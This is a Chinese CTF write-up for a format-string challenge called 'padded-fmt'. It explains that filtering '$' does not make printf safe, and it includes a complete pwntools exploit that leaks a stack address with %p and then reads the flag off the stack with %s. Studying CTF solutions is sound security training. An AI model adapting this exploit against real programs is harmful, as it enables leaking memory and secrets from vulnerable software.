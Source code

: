 ```yaml
---
title: bluewhale2024 - padded-fmt 
date: 2024/5/3 23:08:00
tags:
    - fmt-string
---
```


{% note %}
李华在学习了格式化字符串漏洞后大受震撼，但他突然想到“对啊，如果我给`%n$p`里的`$`过滤掉，
再配合上一个很大块的空数据让printf随便泄露，不就是个安全的printf了吗！”

于是李华写了下面的这个 demo，看看聪明的你能不能打他的脸
{% endnote %}

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |on    |
|strip |no    |

## 解题思路

程序将flag读到了ctx（栈）上，虽然栈上没有触手可及的的栈地址，但是寄存器里有，
我们就可以推算出ctx的地址，接下来以这个地址用字符串的方式打印就可以获得flag

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './fmt'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('competition.blue-whale.me', 20603)
    elf = ELF(EXE)

    sh.sendlineafter(b'name?\n', b'%p,%p,%p,%p,%p,%p,%p')
    rsp = int(sh.recvuntil(b'have', True).decode().split(',')[6], 16)
    success(GOLD_TEXT(f'Leak rsp: {hex(rsp)}'))
    flagAddr = rsp + 0x470
    
    sh.sendlineafter(b'say?\n', (b'%p,'*16 + b'%s').ljust(0x38, b'\0') + p64(flagAddr))
    flag = sh.recvuntil(b'}').decode().split(',')[-1]
    success(f'FLAG is: {flag}')
    sh.close()
```
